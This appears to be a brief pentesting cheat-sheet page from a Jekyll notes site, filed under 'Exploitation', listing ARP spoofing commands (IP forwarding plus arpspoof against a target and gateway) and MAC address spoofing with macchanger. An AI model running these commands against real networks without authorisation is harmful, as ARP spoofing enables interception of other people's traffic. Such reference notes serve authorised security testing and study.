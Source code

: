 ```yaml
---
layout: default
title: Spoofing
parent: Exploitation
nav_order: 1
---
```


# Spoofing
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

### ARP Spoofing
`echo 1 > /proc/sys/net/ipv4/ip_forward` - enables IP forwarding   
`arpspoof -i <int> -t <target ip addr> -r <host to spoof i.e. gw>`  
`arpspoof -i <int> -r <host to spoof i.e. gw> -t <target ip addr>`  

### MAC Spoofing
`macchanger --show <int>` - shows current MACs set
`macchanger -r <int>` - sets a random MAC on <int>
 
  
